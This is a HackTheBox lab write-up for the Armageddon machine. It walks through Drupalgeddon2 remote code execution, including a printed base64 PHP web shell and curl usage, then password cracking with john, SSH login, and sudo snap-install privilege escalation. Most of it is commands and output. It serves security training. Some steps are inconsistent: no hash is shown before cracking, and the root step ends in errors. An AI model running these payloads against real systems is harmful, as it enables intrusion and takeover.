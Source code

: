 ```yaml
---
tags:
  - hack
  - linux
---
```

# HackTheBox: [Armageddon](https://app.hackthebox.com/machines/Armageddon)

> [!tip]- Summary with Spoilers
> - This machine was running Drupal 7.56 with the `Drupalgeddon` vulnerability, which I used to gain RCE as the `apache` user.
> - I cracked the admin’s password hash from the `settings.php` file to access the CMS.
> - I escalated privileges by exploiting a `sudo` misconfiguration that allowed me to run arbitrary Snap packages as `root`.

## Enumerate

```console
$ nmap -n -sCV -T4 -F $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 15:27 CST
Nmap scan report for 10.10.10.233
Host is up (0.22s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to  Armageddon |  Armageddon
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.64 seconds
```

```console
$ curl -kI http://10.10.10.233
HTTP/1.1 200 OK
Date: Wed, 11 Oct 2023 21:35:25 GMT
Server: Apache/2.4.6 (CentOS) PHP/5.4.16
X-Powered-By: PHP/5.4.16
Expires: Sun, 19 Nov 1978 05:00:00 GMT
Cache-Control: no-cache, must-revalidate
X-Content-Type-Options: nosniff
Content-Language: en
X-Frame-Options: SAMEORIGIN
X-Generator: Drupal 7 (http://drupal.org)
Content-Type: text/html; charset=utf-8
```

![](_/htb-armageddon-20231113-1.png)

This site is running [a vulnerable version of Drupal](https://www.drupal.org/forum/newsletters/security-advisories-for-drupal-core/2014-10-15/sa-core-2014-005-drupal-core-sql).

## Exploit

The vulnerability is a well-known one, called "Drupalgeddon". There are several PoC's available. I pick one from GitHub:

```console
$ wget https://raw.githubusercontent.com/dreadlocked/Drupalgeddon2/master/drupalgeddon2.rb
--2023-11-13 10:18:52--  https://raw.githubusercontent.com/dreadlocked/Drupalgeddon2/master/drupalgeddon2.rb
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.111.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 22954 (22K) [text/plain]
Saving to: ‘drupalgeddon2.rb’

drupalgeddon2.rb                    100%[==================================================================>]  22.42K  --.-KB/s    in 0.02s   

2023-11-13 10:18:52 (946 KB/s) - ‘drupalgeddon2.rb’ saved [22954/22954]

$ sudo gem install highline
Fetching highline-2.1.0.gem
Successfully installed highline-2.1.0
Parsing documentation for highline-2.1.0
Installing ri documentation for highline-2.1.0
Done installing documentation for highline after 1 seconds
1 gem installed

$ sudo ./drupalgeddon2.rb http://$t
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.233/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.233/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.56
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo KFAVKEUM
[+] Result : KFAVKEUM
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.233/shell.php)
[i] Response: HTTP 404 // Size: 5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://10.10.10.233/shell.php' -d 'c=hostname'
armageddon.htb>> id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0

armageddon.htb>> ls -la /var/www/html/sites/default
total 56
dr-xr-xr-x. 3 apache apache    67 Dec  3  2020 .
drwxr-xr-x. 4 apache apache    75 Jun 21  2017 ..
-rw-r--r--. 1 apache apache 26250 Jun 21  2017 default.settings.php
drwxrwxr-x. 3 apache apache    37 Dec  3  2020 files
-r--r--r--. 1 apache apache 26565 Dec  3  2020 settings.php

armageddon.htb>> diff /var/www/html/sites/default/{default.,}settings.php
247c247,261
< $databases = array();
> $drupal_hash_salt = '4S4JNzmn8lq4rqErTvcFlV4irAJoNqUmYy_d24JEyns';
```

## Escalate

I run `john` on the hash discovered above, and it's easy to crack:

```console
$ john --wordlist=rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
booboo           (?)     
1g 0:00:00:00 DONE (2023-10-13 15:20) 4.000g/s 960.0p/s 960.0c/s 960.0C/s alyssa..chris
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

I now login as `bruce` with the password I cracked:

```console
$ ssh brucetherealadmin@$t
brucetherealadmin@10.10.10.233's password: [booboo]
Last login: Fri Mar 19 08:01:19 2021 from 10.10.14.5
[brucetherealadmin@armageddon ~]$ cat user.txt
19ace2[...]
```

# Escalate

I check what `sudo` privileges the user has:

```console
$ ssh brucetherealadmin@$t
brucetherealadmin@10.10.10.233's password: 
Last login: Fri Mar 19 08:01:19 2021 from 10.10.14.5
[brucetherealadmin@armageddon ~]$ cat user.txt
19ace2cb4e15efcf7d582a4b11c14fb1
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries forlbrucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG
    LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE
    LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

[snap](https://en.wikipedia.org/wiki/Snap_(software)) is a packaging system. I'm able to escalate privileges using a custom malicious package I create on my machine:

```console
$ scp xxxx_1.0_all.snap brucetherealadmin@${t}:/tmp/^C
^ rc=130

$ sudo sh snap_generator.sh 
Enter payload: 
cat /root/root.txt
-e Payload is set to: cat /root/root.txt 

Enter payload name: 
xxxx
-e 

-e ...Generating Payload...

Created package {:path=>"xxxx_1.0_all.snap"}

$ !scp

$ scp xxxx_1.0_all.snap brucetherealadmin@${t}:/tmp/
brucetherealadmin@10.10.10.233's password: 
xxxx_1.0_all.snap                                                                                                                                                  100% 4096    17.3KB/s   00:00    
```

This gives me root privileges on the target to access the `root.txt` flag:

```console
[brucetherealadmin@armageddon ~]$ sudo /usr/bin/snap install --dangerous --devmode /tmp/xxxx_1.0_all.snap 
error: cannot perform the following tasks:
- Run install hook of "xxxx" snap if present (run hook "install": /snap/xxxx/x1/meta/hooks/install: 2: /snap/xxxx/x1/meta/hooks/install: python: not found)
[brucetherealadmin@armageddon ~]$ sudo /usr/bin/snap install --dangerous --devmode /tmp/xxxx_1.0_all.snap 
error: cannot perform the following tasks:
- Run install hook of "xxxx" snap if present (run hook "install": 11fc9c[...])
```

## Summary

This machine is a simple example of a web site running vulnerable software that allows unauthenticated RCE, after which admin credentials are easily found on the filesystem that provide access to an admin user account with `sudo` privileges that are exploitable for full system access.
